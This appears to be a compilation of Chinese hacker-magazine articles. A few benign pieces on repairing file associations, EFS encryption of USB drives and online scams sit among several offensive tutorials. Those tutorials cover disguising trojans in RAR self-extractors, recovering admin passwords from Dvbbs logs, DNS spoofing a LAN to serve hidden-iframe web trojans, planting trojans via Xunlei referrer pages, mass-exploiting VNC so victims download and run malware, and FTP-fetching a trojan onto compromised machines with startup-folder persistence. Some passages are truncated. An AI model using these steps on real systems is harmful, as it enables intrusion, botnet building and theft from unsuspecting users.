修改常见文件的关联是病毒惯用的伎俩，杀毒完成后很多文件的关联都出现了错误。例如查杀关联 EXE 文件的木马后，会破坏系统中所有 EXE 可执行程序的关联，导致无法启动任何程序。

- 1. 文本型文件的关联被破坏。双击任意一个 TXT 文档，如果出现没有程序关联的提示（图3），可右击 TXT 文档选择“打开方式”→“选择程序”，浏览到 `C:\windows\notepad.exe`，并勾选“始终用选择的程序打开这种文件”即可修复。


- 2. EXE 文件的关联被破坏。如果出现双击 EXE 文件无法执行，通常是 EXE 关联被病毒破坏，可按以下方法修复。

##### 方法一：命令提示符法

```txt
ftype exefile="%1" %*

# 若无法调出命令提示符，可新建 TXT，写入：
C:\windows\system32\cmd.exe
# 保存为 BAT 并加入开机脚本，重启后再执行 ftype 命令修复。
```

##### 方法二：注册表法

打开记事本，输入以下内容，输入完毕后另存为“REG”文件，双击导入即可。

```txt
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\exefile\shell\open\command]
@="\"%1\" %*"
```

##### 方法三：用杀毒程序自身的文件关联修复功能

很多杀毒软件也都具有修复文件关联的功能，以金山毒霸6为例，首先进入金山毒霸6的安装目录，将主程序文件扩展名由 Kav32.exe 修改为 Kav32.com 并运行……修复完毕后再改回 Kav32.exe 即可。

#### 三、网络功能不正常

杀毒后，往往会造成网络功能不正常。具体有以下几种表现。

#### 1. 不能浏览某个（些）特定网址

首先到其它电脑确定在本机无法浏览的网页是否可以浏览，如果其它机器可以正常浏览，那么检查本机的 HOST 文件并修改恢复即可，位置在 `C:\Windows\system32\drivers\etc`……

#### 2. QQ能上，但网页打不开

杀毒后，QQ等即时通信软件可以正常使用，但是却无法正常浏览网页，打开网页时提示“该页无法显示”。这主要是杀毒过程中破坏了 Winsock 相关 DLL 文件，应先用 `SFC /Scannow` 检测修复……

```txt
regsvr32 shdocvw.dll
regsvr32 oleaut32.dll
regsvr32 actxprxy.dll
regsvr32 mshtml.dll
regsvr32 msjava.dll
regsvr32 browseui.dll
regsvr32 urlmon.dll
```

#### 3. IE无法打开新窗口

IE 无法打开新窗口也是杀毒后常见故障之一，通常由 IE 新窗口模块损坏或注册信息丢失引起。可在命令提示符下输入：`for %i in (c:\windows\system32\*.dll) do regsvr32.exe /s %i`，完成后重启。

关于杀毒“后遗症”的处理，要因时因事灵活处理，本文仅起抛砖引玉作用，需在实践中多总结。


## 将RAR自解压文件变木马玩死小民

各位读者对于 WINRAR 自解压文件一定不会陌生……本文讨论如何让 RAR“说一套做一套”，并演示相关修改步骤。

```txt
52 61 72 21 1A 07 00 CF 90 73 00 00 ...
```


文中说明将 `cmp byte ptr ds:[edx+1],61` 修改为 `cmp byte ptr ds:[edx+1],60`，并保存运行。随后继续处理 RAR 压缩包内容。


先，CTRL+C复制。再次用 WINHEX 打开 sncopy.sfx.exe，来到上次查找的地方（可以搜索几次 72211A07 找到）。在上方可以看到大片的数字 0，在这里 0 中随便找个位置选定，按下 CTRL+V 粘贴，会出现提示说会使文件增大，不用理会点确定，保存文件。

现在再来看一下 sncopy.sfx.exe，右键菜单里是不是有了“用 WINRAR 打开”的选项了！选择一下看看，是不是只有 TaskManager.exe，如图4。双击一下，成功运行 TaskManager。再来试下直接双击运行 sncopy.sfx.exe，是不是 sncopy 跳出来！

这种方法的操作并不难，原理也很简单：自解压 RAR 文件实际上是将一个非自解压 RAR 文件作为附加数据合并进一个 EXE 程序里，这个 EXE 程序运行后会寻找 RAR 文件头，即 526172211A07 这串数字，并从这里向下解压缩。我们修改文件后的 EXE 程序可以识别修改后的文件头，而右键用到的是本机的 RAR 解压缩程序，自然也就无法识别修改后的文件头。而后来使用 WINHEX 粘贴上去的 RAR 文件的状况则刚好相反。


RAR 正好打开的就是可以识别的 TaskManager.rar 文件。所以直接执行自解压文件和用 RAR 打开自解压文件的结果不一样。看到的和释放运行的并不是同一程序，是不是挺恐怖的呀！

> （本文所涉及到的 WINHEX 和 Ollydbg 已收录到光盘中）


### 教你正确读出动态网站后台口令

人鱼姬

我们在入侵动网过程中，利用下载数据库或者注入通过 Dv_log 读取管理员密码时可能会遇到如图1的问题，“password2=”后面怎么变成这样了呢？

Dv_log 是用来存储比较重要的 URL 日志的，当管理员登录后台时，密码会在 URL 中以参数形式传递给 admin.asp，而这个 URL 会被记录在 Dv_log 中，参数名 password2 后面的就是密码了（不知动网论坛的作者是出于什么考虑制作这个弱点）。咦？大家一定会奇怪密码竟然是 `%C8%CB%D3%E3%BC%A7%5E%26*%28%29123abc`。这是因为在 URL 中的汉字和特殊字符会被自动转化为 ASCII 码，也就是转化为16进制的数，一个汉字占两个字节，一个特殊字符占一个字节，两个16进制的数占一个字节，每两个16进制的数用“%”开头。大家比较熟知的空格为“%20”，数据库将“\”写为“%23”就是这个道理了。而 URL 中的数字和字母不会被转化为 ASCII 码。

让我们来分析这个 ASCII 密码 `%C8%CB%D3%E3%BC%A7%5E%26*%28%29123abc`，刚开始是 `%C8%CB%D3%E3%BC%A7%5E%26` 这8个字节的内容，可能是汉字也可能是特殊字符，然后是 `*`，这里要说明一下，`*` 是不会被转化为 ASCII 码的，所以这个位置就是 `*`，再往后就是“%28%29”（注意，每个“%”后的都是两个16进制的数），最后就是 `123abc`。所以我们只需知道 `%C8%CB%D3%E3%BC%A7%5E%26` 和 `%28%29` 代表什么就行了。

打开 ASCII 速查7.0（任意汉字和字符与 ASCII 码之间相互转化），点击处理，将进制设为16进制，如图2。再将分隔符设为“%”，如图3。最后设为分隔符在前，如图4。

好了，我们现在就把 `%C8%CB%D3%E3%BC%A7%5E%26` 复制到下面的框中，注意：要将 ASCII 码转化为原来的内容，一定要将 ASCII 码填在下面，如图5。

出来了，`%C8%CB%D3%E3%BC%A7%5E%26` 对应的是“人鱼姬^&”，接下来就是 `%28%29` 了，如图6。

所以，后台密码就是“人鱼姬^&*()123abc”。通过上面的内容，大家可以不再为看到这种“天书”密码而发愁了。

> （本文涉及到的 ASCII 速查7.0 已收录到光盘中）


## U盘也玩EFS加密

人浪流涯天


U盘的使用现在是非常普及的，但方便的同时，却也带来了安全问题。许多U盘都带有保密功能，但还是有很多不具备的。为了保护我们U盘中的秘密，需要自己动手给U盘加密。相对于网上繁多的加密软件，我还是选择微软自带的 EFS 加密，它的安全性是有目共睹的，而且操作简单，但使用的前提是你的文件系统必须为 NTFS。

#### 一、艰难的文件系统转换

我突然想给U盘进行 EFS 加密是因为我中了一个类似于U盘窃密者的东西，为了防止泄漏重要文件才这么做。当点击格式化按钮后，居然告诉我无法完成格式化命令，程序正在使用。无奈只好到 CMD 下试试，键入 `format /q /v /fs:ntfs n:`，结果计算机又给了我一巴掌，提示“这个为删除而优化的设备不支持 NTFS 文件系统……”，如图1。


不过下面那一句“要改变这个设备优化的方式……”却着实让我眼前一亮，马上按 Win+E 打开资源管理器，选中U盘所在的盘符按 Alt+Enter 打开U盘的属性设置对话框，再次选择硬件选项卡，查看 USB-DISK 属性，如图2。


这时会弹出 USB-DISK 属性对话框，在这里我们就可以看到策略选项了，有“为快速删除而优化”和“为提高性能而优化”两组策略，如图3。我们当然要选择“为提高性能而优化”这个策略了，不然以后的戏还怎么唱。OK 之后点击确定会自动打开U盘，不用理会它，关掉就可以。然后右键单击U盘选择格式化，就会发现有 NTFS 文件系统可供我们选择了，如图4。选中快速格式化就静等几秒钟吧，如果这时格式化程序报类似于程序正在使用这类的错误，就用上述的那条 `format` 命令去解决吧，百试百灵。由于我的U盘中了“奖”，为图省事才将它格式化，在大家实际应用中可以用 `convert /f /v /fs:ntfs [drive]` 这条命令去转换文件系统。不过要记住，转换的过程会比较慢，千万不要断电，更不要在这个时候拔掉U盘，最好提前备份里边的重要数据。而且格式化后的U盘最好再改回“为快速删除而优化”这组策略，以免在热插拔的时候丢失数据。


### 二、轻松的EFS加密

进入 CMD 切换到U盘的目录，然后 MD（建立）了一个叫做 EFS 的文件夹，接着继续输入 `cipher /e efs`（这条命令作用是加密当前文件目录，并且在以后向该目录添加的文件和目录也会得到相同的加密）。最后输入 `cipher /x n:`，重复两次键入密码，密钥就会备份到指定位置（我备份到了U盘中），如图5。


看到这里可能有人会问道：“既然你把密钥备份到了U盘上，那你的文件岂不是很容易地就叫人窃走了？”EFS 加密当然不会这么没用，当我们将加密文件在别人机器上使用的时候，只需要双击那个密钥 PFX 文件，根据提示操作安装证书，这中间就会需要你当初输入的密码，如果没有密码证书是无法安装的。在安装证书时，系统提示证书存储的位置，这一步一定要记住存在哪了，这是为了我们删除证书时方便，总不能把自己加密文件的生杀大权交给别人吧，如图6。


删除证书的方法是在运行中输入 `certmgr.msc` 打开证书管理器，找到自己导入的证书删除，千万不要删错了别人的证书，如图7。


相信大家看到这里都会觉得微软的 EFS 技术还是相当强大的，而且使用还非常方便，一个证书就可以代替其它工具的频繁敲击密码，是我们不错的选择。

### 利用 DNS 欺骗在局域网中控马

黑侠（Black Mask）


DNS 域名欺骗，相信许多朋友都听说过吧，也经常会听到一些某某大站遭到 DNS 欺骗攻击，而导致网站不能被用户所正常浏览。那么难道某某大站真的被入侵了吗？

其实情况并不是这样的，他们的网站并没有真正地被入侵，而是他们的域名被黑客劫持。当用户浏览他们的网站时，就会发现主页变成了其他的内容。其实 DNS 欺骗并非只能在广域网里实现，而在局域网里也能够实现，并且更加容易些（网吧又要热闹了）。下面我们来看看局域网中是如何进行 DNS 域名欺骗的。

#### 一、DNS 欺骗原理

下面我将对 IP 地址为 192.168.0.100 的主机进行 DNS 欺骗，先来看看我们本地的 IP 配置情况，如图 1。如果局域网里 192.168.0.100 主机向当前网关 192.168.0.1 询问 www.google.com 的 IP 地址是多少时，我们将冒充网关 192.168.0.1 返回给他一个特定的、含有网页木马的 IP，这样就实现了 DNS 域名欺骗了。好了，理论讲完了，看实际操作吧。


### 二、配置 PcShare 和 MS06014 网马

打开 PcShare 客户端，点击“创建客户”，输入控制端 IP 地址：192.168.0.92，端口 81，点击“生成”，保存名为 123.exe 到桌面了，如图 2。


PcShare 的服务端配置完成了，再来配置一下网页木马 MS06014 吧。打开 MS06014 生成器，输入网址 http://192.168.0.92/123.exe，点击“生成”，保存名为 xtaflf.htm 到桌面，如图 3（注：没有空间的朋友可以像我这样把对方欺骗到本机，有空间的话，大家最好将网马和服务端上传到自己的空间上去）。


运行“HTTP 傻瓜服务器”架设本地 WEB 服务器，将目录指定在 F:\xtaflf 文件夹，如图 4。再将网马和 PcShare 的服务端 COPY 过去。


把代码插入到自己制作的主页中去。

```html
<iframe src="http://192.168.0.92/xtaflf.htm" width="0" height="0" frameborder="no" border="0" marginwidth="0" marginheight="0" scrolling="no"></iframe>
</BODY>
</HTML>
```

图 5

#### 三、进行 DNS 欺骗

经过前面的准备，终于到了要进行 DNS 欺骗了，如果没有这一步，前面所做的都是白搭。拿出工具“Cain 2.8”，运行“Cain”，界面如图 6。


选择“嗅探”，再点击上面的那个网卡图标“开始嗅探”。点击那个黑色的十字图标，在弹出的对话框中的目标网络里选择“子网中的所有计算机”，也可以选自定义范围。点击“确定”，软件会自动扫描出子网里的所有电脑，如图 7。


好了，选择下面的那个“ARP”，点击上面的那个黑色十字，在弹出的“新建 ARP 欺骗”的对话框，左边选你要欺骗的 IP 地址：192.168.0.100，右边选被欺骗 IP 的目标网关 192.168.0.1，最后确定，如图 8。

点击“DNS 欺骗”，然后依然点击那个黑色的十字，弹出一个 DNS 欺骗的对话框，如图 9。


在请求 DNS 域名栏中填入 192.168.0.100 正常要访问的网站，如 www.google.com。然后在“用来改写响应包的 IP 地址”栏填入欺骗 IP：192.168.0.92，意思是说，当主机 192.168.0.100 访问 www.google.com 时要跳到我们所给出的 IP 地址 192.168.0.92（你可以添加对方常访问的网站，这样更容易中招）。最后点击“开始/停止 ARP 欺骗”，DNS 欺骗正式开始了，如图 10。

只要对方打开 GOOGLE 就会浏览 192.168.0.92 的主页，下载并执行木马程序。好了，马上中招了哦，打开 PcShare 的控制端，如图 11。抓个屏，看看对方主机的当前屏幕情况吧。GOOGLE 变成 192.168.0.92 的主页了哦（为了不露馅，你可以制作和欺骗主页一模一样的页面），如图 12。

用 Cain 2.8 进行 DNS 欺骗的时候，最好速战速决，不宜长时间地欺骗。这个软件是一个非常强的工具，它不仅仅局限于 DNS 欺骗，还有其他许多功能，有兴趣的朋友慢慢研究吧。（本文所涉及到的 pcshare2006、MS06014 和 Cain 2.8 已收录到光盘中）

## 电影网站的下载攻略

曾云好

前几天一朋友要求我帮她破解一个在线电影网站，正好这段时间俺也研究过电影网站，自己也非常渴望有免费电影观看，就毫不犹豫地答应了，同时也是对这段时间来的一个很好的总结。

破解电影网站的方法很多，但是目前都是为了得到正确的电影 URL 地址，然后下载。我把平时自己破解电影网站的技巧和经验写出来并同时给出解决方案。

- 1. 直接点击右键属性查看地址（图 1）。这种方法最简单，防护也最简单，把网页的右键屏蔽掉就可以防范此类攻击了。目前各种电影网站对这种破解方法都可以有效地屏蔽，比较流行的就是利用 JavaScript 脚本来屏蔽，具体代码：


```javascript
<script language="JavaScript">
if(window.Event){
  document.captureEvents(Event.MOUSEUP);
  function nocontextmenu(){
    event.cancelBubble=true;
    event.cancelBubble=false;
    return false;
  }
  function norightclick(e){
    if((e.which==2)||(e.which==3))
      return false;
  }
}
else
if (event.button == 2 || event.button == 3)
{
  event.cancelBubble = true
  event.returnValue = false
  return false
}

document.oncontextmenu = nocontextmenu; // for IE5+
document.onmousedown = norightclick;    // for all others
```

- 2. 查看网页源代码的方法

打开浏览器查看网页的源文件，查找 URL 地址就可以了。但是有的网站会把电影单独作为一个页面来播放，如果用 IE 浏览就看不到 URL 地址了，而 QQ 的 TT 浏览器对各种信息都会保留下来，所以这种情况就用 TT 浏览器来破解（图 2）。


解决这种攻击有两种办法：一是禁止查看源代码，同样是利用鼠标的一些函数来实现，代码为：

```javascript
<script language="JavaScript">
<!--
document.onmousedown = click
function click(){
  if (event.button==2){ alert('...') }
  else if (event.button==3){ alert('...') }
}
// -->
</script>
```

二是对源代码进行脚本加密，只要调用 unescape() 就可以实现加密效果，代码为：

```javascript
<script language="JavaScript">
var 源代码 = "..."
function 加密代码(){
  加密后代码 = unescape(源代码)
  document.write(加密后代码)
}
</script>
```

- 3. 一些网站的在线电影是弹出一个 Real 播放器来播放电影，下载地址看不到。有一种很好的方法就是把 IP 释放，电影就马上断线，这个时候就会出现一个 URL 地址（图 3），把电影下载下来就可以了。

原理很简单，故意让 Real 播放器出错，出错的地址就是电影的地址了。


- 4. 一些影片是 asx 文件格式，点击以后会自动打开 Windows 自带的 Media 播放器进行播放。但是把 asx 文件下载下来以后发现大小不超过 1M，不过可以用记事本打开后查找电影的 URL 地址。这种攻击的防护只要把 asx 的源代码进行脚本加密就可以了。

- 5. 利用 FlashGet 来破解

（1）在监视的文件类型中添加常用的播放文件的后缀名。当在线播放弹出窗口播放时，FlashGet 就会提示是否要下载（图 4）。

（2）利用站点资源探索器来对网站所有 URL 地址进行挖掘，然后筛选出多媒体格式的 URL（图 5）。


- 6. 利用影音神探来破解。它不仅可以找出网页中的媒体文件的网络地址，而且可以找出流媒体的 URL 地址。影音神探利用 Windows 上的 WinPcap 软件进行数据分析，以监听和截获网络底层数据包，从而截取数据的文件格式和 URL 地址。

它的功能非常强大。就拿福建工程学院视频点播来举例，地址为：http://movie.fjut.edu.cn/，打开一个链接（图 6）。


点击在线播放，发现看不了，可能是因为限制 IP。设置好影音神探后，用它来分析所有经过网卡的视频、音频文件，然后下载就可以了（图 7）。


- 7. 大多数在线电影网站都是用 Real 和 Media 播放器，这样可以在播放器上得到 URL 地址。

（1）Media：单击播放器窗口和正在“播放选项”的“显示播放列表”选项，在 Media 的右侧就出现播放列表。用鼠标右击正在播放的文件，选择“属性”就可以看到文件的存放地址了（图 8）。


（2）Real：单击播放器窗口中的“文件”的“剪辑属性”的“查看编辑信息”就可以看见该文件的 URL 地址了（图 9）。


从第三种方法到第七种方法，都可以用 Escape 和 Unescape() 函数对 URL 地址进行 ASCII 码相互转换。原理和对源代码加密是一样的。这样就看不到原始的 URL，看到的是经 ASCII 转换的 URL 地址，以防止被下载。

上面都是一些电影网站常见的破解与防护手法。对于防护手法而言这是完全不够的，因为懂得脚本程序的人可以轻易绕过。目前比较好的方法就是利用流媒体服务器，采用断点传输技术，这样就算得到 URL 地址也很难把电影下载下来。希望本文可以对各路朋友有所帮助。


### 迅雷留名也挂马

黑枫无泪　黑暗中的行者


今天我像往常一样进入迅雷雷区下载东西，打开一个软件的下载页面时竟弹出那个可爱的“帮助”窗口（石头：恭喜你中了这个这么落后的网马），难道是迅雷雷区被挂马了？查看它的源文件没有发现“<iframe src=>”之类的挂马语句，仔细分析终于知道真相：原来在雷区打开一个资源的下载页面时也就自动打开该资源的引用页，而该引用页刚好被人挂了马。既然是这样，我们可以精心构造一个网页自己来发布资源，然后在该网页上挂马，这样不就可以在迅雷雷区进行间接的挂马了吗？说干就干，马上动手。

19840911。发布后等几十秒，那个蓝色的“发布”按钮就变成了橙色的“评论”按钮，说明已经发布成功了。点下“评论”按钮进入资源页面，再点里面的资源标题就会进入它的下载页面，效果如图 2。

迅雷把我们构造的网页当作引用页，并且在网页的右边自动打开。我们完全可以在构造的网页页上挂马。目前最流行的网马当属不弹网页了，我使用的是 Goldsun 版的 IE 网马新世界，号称“无弹、无闪、无卡、无关闭”的一款网马。经我多次测试表明，该网马在木马服务器较小的情况下效果非常的好，而最新发布的 pcshare2006 正式发布版本的服务端只有 60KB，正适合用来做网马。首先配置 pcshare2006 的木马服务端，把它上传到你的空间得到它的 URL 地址，然后打开网马生成器，在程序地址处填上地址，如图 3。点“生成”后就生成一个 wm.htm，用主页加密.exe 这款小工具加密一下即可免杀，把免杀后的 wm.htm 也上传到空间，得到的网马地址形如：http://www.hackerhf.com/wm.htm。

#### 一、构造引用页来发布资源

先上传一个软件到自己的空间里，我上传的是最新版迷你 QQ，得到地址为 http://www.hackerhf.com/MiniQQ2.2rar。然后来构造一个网页：打开记事本，输入下面的内容（根据你发布的资源来定），把它保存为一个 htm 文件，如 miniq.htm。为了增加迷惑性，可以用 FrontPage 等网页编辑工具把它美化一下，比如加入一些图片和说明等，以下仅供参考：

<p></p>

```html
<p><font color='#FF3300' size=6>迷你QQ(MiniQQ) v2.2</font></p>
<p>运行环境：Win9x/NT/2000/XP　　　　文件大小：70KB</p>
<p>软件类别：国产软件　　　　　　　添加时间：2006-8-9</p>
<p>软件语言：简体中文　　　　　　　授权方式：免费</p>
<p>详细信息：绿色、简洁、有趣，虽只有70K的QQ客户端……</p>
<p><a href='http://www.hackerhf.com/MiniQQ2.2rar'>点这里下载</a></p>
```

把 miniq.htm 上传到自己的空间，得到网页 http://www.hackerhf.com/miniq.htm，打开这张网页，如图 1。打开迅雷，然后用迅雷把网页中的迷你 QQ 下载下来，下载完后点击“发布”，把它发布到迅雷雷区。发布资源很简单但需要少校以上军衔，如果你没有可以用这个共享帐号：zhaotianjiang，密码：


#### 二、在引用页面上挂马

发布资源后一般要等一两天，先得经过雷区管理员的审核，然后别人才能在雷区里搜索到你的资源。等到有较多的人下载你的资源后你就可以开始挂马了，方法就是在原来的构造页面 miniq.htm 中加入 `<iframe src=http://www.xxx.com/wm.htm width=0 height=0></iframe>` 代码就可以了，把它上传到空间覆盖原来的 miniq.htm 就完成了挂马。

### 三、构造引用页来盗用大站的链接

刚才我们是在自己的空间上传文件然后发布的，但是自己的空间有限，而且刚发布的资源下载量小，在雷区的搜索结果中往往排在后面，别人一般是下载较靠前的资源的。怎么办呢？这里我们想出一个办法：盗用大站的链接为我所用。方法很简单，同样构造一个类似 miniq.htm 的文件，不同的是这里要把“点这里下载”处链接的下载地址换成某一个大站中相应软件的下载地址，然后把它上传到自己空间得到一个网页，用 IE 打开点击“点这里下载”却是软件下载下来，这时我们下载的是别人网站的软件，但却是通过我们构造的页面来下载的，迅雷怎么处理这利害关系呢？经实验表明，迅雷把我们构造的页面当作引用页，不信你自己查看：在迅雷右键该软件，点击“浏览引用页”，发现打开的是我们的网页而不是那个大站的网页，这就说明我们的盗链成功了。这里仅以软件为例，其实视频、MP3 等资源都可以盗用，越热门的资源越好，当然有个条件就是它还没有被别人发布。

#### 四、总结

以前有不少人来到迅雷雷区抓肉鸡，他们常用捆绑这种低级的方法，很容易暴露。而今天提出了一种全新的思路，比较有安全意识的人到雷区下载资源时最多会担心下载的资源中会不会有恶意程序，但他们万万没有想到进入资源的下载页面还没有下载的时候就已经中了我们的网马，如果木马和网马都是免杀的话……就等着收肉鸡吧！

### VNC 肉鸡，“吃”了吗？

冰河洗剑


VNC 是一款非常不错的远程控制软件，不仅是 Windows 系统，在 Unix/Linux 系统下也完全可以使用，国内外有许多用户都在使用这个远程控制软件。不过 VNC 的认证特别简单，存在着认证绕过漏洞。相信利用这个漏洞，菜鸟们都弄到了许多肉鸡吧（在今年第 6 期的《黑客 X 档案》上，sagi 曾详细介绍过漏洞利用的方法）！不过那个利用方法有个小小的缺陷，就是当我们成功连接进入对方电脑后，倘若电脑主人正在电脑前使用电脑的话，此时我们任何操作，对方都会清楚地看到，和对方抢鼠标玩的游戏也太猖狂了吧，搞不好对方一拔网线就 game over 了。那能否偷偷在后台利用 VNC 漏洞来控制肉鸡呢？最近，我就在网上找到了一款叫做 VNC Owner V1.0.0 的工具，圆了咱们菜鸟的梦。

另外，网络不适用 s.exe 的朋友也可以使用当初 sagi 提供的那个专用 VNC 扫描器，只不过速度有些慢，其命令格式为 `vscan.exe -i 195.112.1.1-195.112.255.255 -p 5900 -vnc -vv`，如图 4，扫描结果会保存在同目录下的 `VNC_bypauth.txt` 文件中。


图4

#### 一、VNC Owner 溢出体验

在 cmd 命令窗口里运行溢出程序 test.exe，可以看到执行格式为 `test.exe test <URL> <IP> [PORT]`，如图 1。其中 IP 代表远程使用了 VNC 的用户 IP 地址，PORT 则是指定的 VNC 端口，默认为 5900，而 URL 则代表我们木马的链接地址。当 VNC 溢出成功后，被溢出主机会从指定链接地址下载木马并在后台运行。


图1

##### 1. 扫描 VNC 主机

使用 VNC 的主机默认开放 5900 端口，因此我们可以通过扫描该端口来确定有漏洞的主机（小编注：我们更建议使用当初 sagi 提供的漏洞扫描工具，因为并不是所有 VNC 都存在这个漏洞）。我使用的扫描工具为 s.exe，几千个 IP 地址几秒钟就扫描完了。在命令行下执行如下命令：`s.exe SYN 61.7.1.1 61.7.255.255 5900 /save`。这个命令的意思是利用 SYN 协议方式，扫描从 61.7.1.1 到 61.7.255.255 的 IP 段中开放 5900 端口的 IP 地址，然后将扫描结果写入同目录下的 `Result.txt` 文件中，如图 2。


图2

> 小提示：SYN 扫描方式不适合内网（局域网）用户，因此内网用户可以使用 TCP 扫描方式，命令为：`s.exe TCP 61.7.1.1 61.7.255.255 5900 512 /save`。另外，对于 WinXP SP2 用户，在线程数过高时可能会受到系统半连接数限制，建议关闭该限制后再进行大规模扫描。


图3

##### 2. 上传木马

扫描是要花不少时间的，趁这机会可以先将木马上传到网站。由于是利用溢出漏洞下载木马，因此木马体积最好小一些，比较好的方法是使用我们在上期介绍的下载者木马，配合下载者下载体积大的木马。这里我们已经将木马上传到了网址 `http://pumaxiaoyao.googlepages.com/muma.exe`。

##### 3. 溢出

打开扫描结果文件，复制其中某个 IP 地址，比如 61.7.172.8，执行如下命令：`test.exe http://pumaxiaoyao.googlepages.com/muma.exe 61.7.172.8 5900`，如图 5。


图5

接下来就可以等着看结果了，如果显示 “VULNERABLE” 信息，则说明存在漏洞可以溢出。溢出成功后，对方主机会自动下载运行我们的下载者木马，就等着控制肉鸡吧！

#### 二、批量 VNC 溢出

一个一个溢出太慢了，我们还是来玩玩批量溢出吧！我使用的是“通用溢出程序 V1.2”，将程序和 `test.exe` 放在同一目录下。执行通用溢出程序后，在“程序名”中输入溢出程序名称“test.exe”，勾选“前缀参数”项，输入木马链接地址（`http://pumaxiaoyao.googlepages.com/muma.exe`），点击“浏览”按钮，指定刚才扫描的 IP 地址文件，在“端口”中输入“5900”。不要勾选“后缀参数”项，选择“溢出后直接得到 SHELL！”项，其它各项参数保持默认（图6），然后就是等着 VNC 肉鸡自动飞上门了！


图6

> 小提示：批量溢出时，需要对刚才的扫描结果文件进行筛选，仅保留 IP 地址（一行一个），删除其它无用信息。设置完毕后，点击“开始”按钮，即可开始批量溢出。

（本文涉及到的 VNC Owner V1.0.0、S 扫描器、S 扫描器突破 XP SP2 限制工具、vscan 和通用溢出程序 V1.2 已收录到光盘中）

---

## WinXP 下的肉鸡变毒药

毒药

对于那个 Ghost 版本的 XP 系统来讲，菜鸟们可千万不要忘了，毕竟用它来抓肉鸡实在是太方便了。不过呢，就像以前 X 档案上讲的那样，直接使用 NEW 帐号登录来抢鼠标玩可没多大意思。玩就要玩出点新花样，这样玩起来才过瘾呀。

我的新玩法是使用 DameWare NT Utilities，我使用的是 4.0 汉化版本，因为 5.0 版本是英文的而且速度也很慢，容易发生假死现象。我们打开 DameWare，在添加 IP 地址范围栏填上和我们同段的 IP 地址（我们可以使用 ipconfig 来查看自己的 IP 地址，或者通过可显示 IP 地址的 QQ 得到好友的 IP 地址），一般一次填 254 个就可以了，太多的话程序会变得很慢，如图1。


使用 DameWare 的人还是有很多的，如果左边搜索到的计算机图标变成绿色的话，就说明已经建立好了连接，我们可以进一步利用；黄色的是没有建立连接，不可以利用的。

点一下绿色图标的计算机展开其下面的项，双击“远程控制”弹出对话框，如图2；在用户名里填上 new（也可以填上 administrator）。当出现如图3所示的对话框时，我们距离成功就不远了。别忙着点“确定”安装，因为如果直接连接的话，对方任务栏会弹出提示，还不把人家吓坏啊！我们得改用命令行方式。

取消安装后，点击计算机下的“远程命令”→“远程命令视图”，会出现如图4所示的对话框，几秒钟过后就会出现我们久违的命令行提示符了，如图5。有了命令行我们就好解决了，先传个文件上去（当然是传我们已经配置好的木马了）。我选择了 FTP 方式，具体命令如下：

```bash
cd windows
cd system32  //进入系统目录
echo open 218.30.100.90>ftp.txt
echo duyyao>>ftp.txt  //用户名
echo ******>>ftp.txt  //代表我们的 FTP 登录密码
echo bin>>ftp.txt
echo get /htapps/shangxing.exe>>ftp.txt
echo bye>>ftp.txt
ftp -s:ftp.txt
del ftp.txt  //最后别忘记删除
```


一会儿我的上兴就上传到对方电脑上了，马上运行，等着我的肉鸡上线。可等了半天也没见肉鸡露面，不可能是我的马儿被杀了啊（我的木马可是用了三天时间做的免杀，可以过几乎所有杀毒软件）。我使用 dir 命令查看了一下我的木马，还好好地躺在那里呢，如图6。居然没有运行，到底是怎么回事？难道是权限问题？

这时 QQ 好友发来一个网址让我帮他提权。我突然想起来以前提权不是可以利用启动文件夹吗？我们可以利用对方的 `C:\Documents and Settings\All Users\「开始」菜单\程序\启动` 目录。先使用 **net share a=C:\** 命令把他的 C 盘共享为 a，然后我在 IE 里输入 `\\222.95.175.139\a`，如图7，果然是 GHOST 版的 XP 系统。我把上兴直接复制到了对方的启动目录，如图8。为了保险，我在 `\Documents and Settings\administrator\「开始」菜单\程序\启动` 目录和 `C:\Documents and Settings\new\「开始」菜单\程序\启动` 目录里全部放上了我的木马（记住我们使用的木马一定要是反弹的，不然等人家重启后 IP 地址就变了）。

放好木马以后，我们就让他重启吧。在命令行窗口里输入 **shutdown -r -t 30**，意思为 30 秒后系统重新启动。很快他的电脑就会重启了，随着系统重新启动，我们刚才传上去的木马就会自动运行。不一会儿，我们的肉鸡就会屁颠屁颠地上线了。

（文中涉及到的工具 DameWare NT Utilities 4.0 汉化版已收录在光盘中）


---

## “黑客”攻击的骗局大揭密


林子大了什么鸟儿都有，不少小菜都有被骗过的经历。在网络上总有一些人闲着没事，整日投机取巧。还有一些伪君子，总是自称自己是“黑客”，真是玷污了“黑客”这个神圣的词。这类人或以欺骗来盈利，或以种种方法来达到他们想要的目的。今天，就让我们来拆穿他们，看清楚他们的真实面目，粉碎他们的阴谋，还菜鸟们一片纯净的天空。

### 骗局一：送灰鸽子 2006 VIP 帐号


中国的小黑们真的这么团结吗？难道这就是传说中的黑客共产主义？非也非也，其实这是一个骗局。当你留下邮箱或 QQ 后，对方会加你或者给你发邮件，告诉灰鸽子 VIP 帐号。看到这里可能菜鸟们不禁要问，既然给了 VIP 帐号，怎么还是一个骗局呢？猫腻就在这里。

我们经常可以在贴吧和一些论坛上看到有人“大公无私”地赠送灰鸽子 VIP 帐号，如图1。看到这种帖子，大多数菜鸟的第一反应就是留下自己的联系方式，跟帖率自然是“相当”的高。除了留下 QQ 和邮箱外，剩下的内容不外乎感谢楼主和赞叹社会主义的温暖……

因为他的灰鸽子 VIP 帐号是正式付费注册的，所以他可以使用灰鸽子注册用户专用的上线功能，如图2。当然，我们生成的服务端在对方没用帐号密码找回之前是我们的；当对方使用帐号密码找回之后，就意味着我们所做的一切都白忙了，辛辛苦苦弄到 WebShell 挂马抓来的肉鸡一下就成了别人的了。记住，天下没有免费的午餐，自己动手，丰衣足食！

### 骗局二：各种破解版的软件


对于许多热门软件，网上总是有许多“牛人”给我们提供破解版。许多版本总是自称经过**黑客高手**改造，比原版更加实用、功能更多，甚至解除原版的 N 多限制，将收费软件变成免费软件等等，如图3。我们对此表示感激。但同样也有很多人就是那么不安分，在破解的时候捆绑上点东西，加个后门，然后往网上一发，诱骗大家下载。高手们倒还可以以“破壳法”做饭，避免了自己做“鸡”的危险；可对于我们这些刚入门的小菜，大多数对编译和捆绑一窍不通，一不小心，不但没弄到肉鸡，自己反倒成了别人的“盘中鸡”。

建议大家不要因为功能上比原版多一点点，就轻易相信。还是老老实实到信任的站点去下载吧！

### 骗局三：好心地帮你刷 QQ

